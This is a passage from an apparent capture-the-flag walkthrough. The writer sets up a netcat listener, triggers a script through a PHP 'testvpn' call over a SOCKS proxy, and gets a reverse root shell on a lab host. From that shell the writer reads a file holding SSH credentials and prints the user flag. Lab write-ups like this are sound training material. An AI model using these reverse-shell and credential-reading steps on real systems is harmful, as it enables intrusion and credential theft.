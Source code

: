 #### 4.1. Setup listener and trigger `script.sh` via `testvpn` PHP call
```
dave@ubuntu:~/Desktop$ nc -nlvp 2323
# http http://192.168.122.4/vpnconfig.php?function=testvpn --proxy=http:socks4://127.0.0.1:6666 -b
```


#### 4.2. Root shell on DNS 
```
dave@ubuntu:~/Desktop$ nc -nlvp 2323
Listening on [0.0.0.0] (family 0, port 2323)
Connection from [192.168.122.4] port 2323 [tcp/*] accepted (family 2, sport 33672)
bash: cannot set terminal process group (1077): Inappropriate ioctl for device
bash: no job control in this shell
```


#### 4.3. SSH credentials
```
root@DNS:/home/dave# cat ssh
dave
dav3gerous567
```


#### 4.4. User flag
```
root@DNS:/home/dave# cat user.txt
a4947faa8d4e1f80771d34234bd88c73
```
